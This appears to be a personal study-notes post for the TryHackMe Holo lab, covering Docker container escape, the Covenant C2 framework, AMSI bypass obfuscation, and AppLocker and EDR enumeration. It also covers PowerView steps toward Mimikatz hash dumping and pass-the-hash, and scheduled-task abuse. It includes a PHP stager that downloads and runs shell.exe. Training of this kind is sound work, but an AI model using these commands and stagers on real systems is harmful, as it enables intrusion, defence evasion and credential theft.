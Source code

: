 ```yaml
---
layout: post
title: TryHackMe - HoloLive 
categories: lab
permalink: /:categories/holo/
---  
```


###HoloLive lab from THM

Managed Code: code that you develop with a language compiler that targer the runtime


.NET Language → CIL/MSIL → CLR → machine code
.NET uses a run time environment called Common Language Runtime, Which can be used to run managed code written in C#, Powershell or VB
Unmanaged code automatically skips the CLR and runs on the Operating system directly


https://docs.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/dynamic-language-runtime-overview



================================================================================================================
Enumerate Containers with DeepCE . Deep Container Enumeration
Less Processes running is usually a pointer of being in a container
The presece of .dockerenv  in the root directory is also another very good pointer
reatinh the /proc/1/cgroups would usually show path used by docker which in additional pointer

Securing COntainers
https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html






Docker SUID
list available docker images: docker images
then
docker run -v /:/mnt --rm -it {image_name:Image_tag} chroot /mnt /bin/bash
docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt /bin/bash
================================================================================================================
C2 CONVENANT
Further study : https://www.youtube.com/watch?v=oN_0pPI6TYU.

Run Convenent
sudo dotnet run --project /opt/Covenant/Covenant
navigate : https://127.0.0.1:7443

LISTENER
To create a basic listener for this network we only suggest editing the Name, ConnectPort, and ConnectAddresses


LAUNCHER
There are several options for each launcher, with some launchers having specific options. For this task, we will be focusing on the binary launcher and its options
To create a basic launcher for this network, we only suggest editing the Listener and ImplantTemplate


Custom C2 Grunt 
Convenant isnt resource full but enables you to create your own task with c# code in a YAML format

the template follows the follwoing structure
• Name Name of the task in Covenant UI.
• Aliases Aliases or shortcuts for the task.
• Description Description of the task in Covenant UI.
• Language Language the task source code is written in.
• CompatibleDotNetVersions Versions of .NET the source code will run on.
• Code Source code of task.


================================================================================================================
AMSI Bypasses



usually EDR looks for signature sin bypasses like AmsiScanBuffer, amsiInitFailed, AmsiUtils
Use AMSI trigger to find what part of the AMSi bypass payload is triggering the error :  https://github.com/RythmStick/AMSITrigger

To use AMSITrigger, we only need to specify two parameters, -u, —url or -i, —inputfile and -f, —format. Find example syntax below.
Syntax: .\\AMSITrigger.exe -u <URL> -f 1 or .\\AMSITrigger.exe -i <file> -f 1



The area in red is what triggers the AMSI, so we can edit and obfucate that section using method like 
 “String Concatenation” : $OBF = 'Ob' + 'fu' + 's' +'cation'
Additional methods
• Concatenate - ('co'+'ffe'+'e')
• Reorder - ('{1}{0}'-f'ffee','co')
• Whitespace - ( 'co' +'fee' + 'e')



Another payload Obfuscation

Invoke-Obfuscation -ScriptBlock {'Payload Here'} -Command 'Token\\String\\1,2,\\Whitespace\\1' -Quiet -NoExit


Run Powershell command with a php file : PHP-Wrapper.php

#Single Command
<?php
  function compile_stager() {
    $init = "powershell.exe";
    $payload = ""; // Insert PowerShell payload here
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query; // Execute query
  } 

  compile_stager();
?>

##Double Command 
<?php
  function get_stager() {
    $init = "powershell.exe";
    $payload = "Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe"; // Insert PowerShell payload here
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query; // Execute query
  }
 function execute_stager() {
  $init = "powershell.exe";
    $payload = ".\notashell.exe"; // Insert PowerShell payload here
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query; // Execute query
 }
  get_stager();
  execute_stager();
  die();
?>


================================================================================================================
Enumerate for Applocker policy

Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

we can use applocker checker to determin location and directories from which we can run certai programs
https://github.com/HackLikeAPornstar/GibsonBird/blob/master/chapter4/applocker-bypas-checker.ps1.



================================================================================================================
Enumerating for EDR and AntiViruses

We can use Seatbelt and SharpEDRChecker



./Seatbelt.exe <ModuleName>
Examples
./Seatbelt.exe CredEnum
./Seatbelt.exe ScheduledTasks
./Seatbelt -group=full
For more info
https://github.com/GhostPack/Seatbelt#command-groups

================================================================================================================
POWERVIEW

its great to use poweview to find all the groups available on the AD, then find the group members of those particular groups, then maybe find a PC where one of those member are currently signed in too, if you can local admin on that PC ; go ahead to authenticate to it so as to dump the hashes of the juicy user then PTH

Get-NetLocalGroup
command will list all groups preset on a local machine/computer



Get-NetLocalGroupMember -GroupName "Administrators"
command will list all members of the specified group



Get-LoggedOn
command enumerate logged on users on current local machine/computer



Get-DomainGPO
enumerate domain policies such as Applocker



Find-LocalAdminAccess
This command usually check for all the host connected to the domain and checks to see which of those host is our current user/or supplied user a Local admin on 


You can use Ps-Remoting to authnticate on the machine




Then  dump hashes with Invoke-MimikatzEx.ps1





================================================================================================================
Enumerating and Exploiting Schedules tasks

Get-SheduledTask

then filter down to get task that are in the users subdirtectory
Get-SheduledTask -TaskPath “\Users\*”

Read task infomation with
Get-ScheduledTaskInfo -TaskName “proxy”


================================================================================================================

Switch user using runas

runas /user:ratty  powershell.exe     ! then enmter password when prompted 
